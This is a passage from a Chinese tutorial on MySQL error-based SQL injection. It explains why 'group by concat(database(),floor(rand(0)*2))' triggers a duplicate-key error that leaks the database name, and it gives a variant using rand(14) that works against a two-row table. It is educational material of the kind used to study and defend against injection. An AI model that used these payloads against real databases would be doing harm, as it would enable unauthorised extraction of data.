 A：那为什么不是这个结果，反而报了主键重复的错误呢？

Q：因为还有一个最重要的特性，就是group by和rand()使用时，如果临时表中没有改主键，则在插入前rand()会再计算一次（也就是两次，也有说多次的）。就是这个特性导致了主键重复并报错。

> Payload的执行流

```plain
mysql> SELECT count(*)
    -> from users
    -> GROUP BY
    -> concat(database(),floor(rand(0)*2));
ERROR 1062 (23000): Duplicate entry 'sqli1' for key 'group_key'
```

在payload的执行中，当`group by`取第一条`from`表记录时，此时`group by`的是`sqli0`，发现临时表中并没有`sqli0`的主键，注意这个时候，`rand(0)*2`会再计算一次，经`floor()`后，率先插入临时表的主键不是`sqli0`，而是`sqli1`，并计数`1`

| 记录  | Key | Count(\*) | floor(rand(0)\*2) |
| --- | --- | --- | --- |
|     | Sqli0 | 0   | 0   |
| 1   | Sqli1 | 0   | 1   |
|     | Sqli1 | 1   | 1   |
| 2   | Sqli0 | 1   | 0   |
|     | Sqli1 | 2   | 1   |
| 3   | sqli1 | 3   | 1   |
|     | sqli0 | 2   | 0   |
| 4   | sqli0 | 3   | 0   |
|     | sqli1 | 4   | 1   |
| 5   | sqli1 | 5   | 1   |

继续从from的表中取第三条记录，再次计算floor(rand(0)*2)，结果为0，与database()拼接为sqli0，临时表的主键中并不存在，在插入前，floor(rand(0)*2)又计算一次，拼接后与sqli1，但是是直接插入，即使临时表中已经有了主键sqli1也硬要插入，从而导致主键重复报错，也就是：ERROR 1062 (23000): Duplicate entry (条目) 'sqli1' for key 'group\_key'。

> 优化

Floor(rand(0)\*2)的值为011011... 但其实第三次计算的结果我们已经不需要了，如果没有floor(rand(x)\*2)满足0101或1010，那么from的表中有两条数据就是可以报错的。

经过多次实验，发现floor(rand(14)\*2)的值为1010000...,那么我们创建一个只有两条数据的表试一下看看

```plain
mysql> select * from test;
+------+-------+------------+
| id   | name  | tel        |
+------+-------+------------+
|    1 | test  | 1111111111 |
|    2 | test2 |  222222222 |
+------+-------+------------+
2 rows in set (0.01 sec)

mysql> select count(*) from test group by concat(database(),floor(rand(0)*2));
+----------+
| count(*) |
+----------+
|        2 |
+----------+
1 row in set (0.01 sec)

mysql> select count(*) from test group by concat(database(),floor(rand(14)*2));
ERROR 1062 (23000): Duplicate entry 'sqli0' for key 'group_key'
```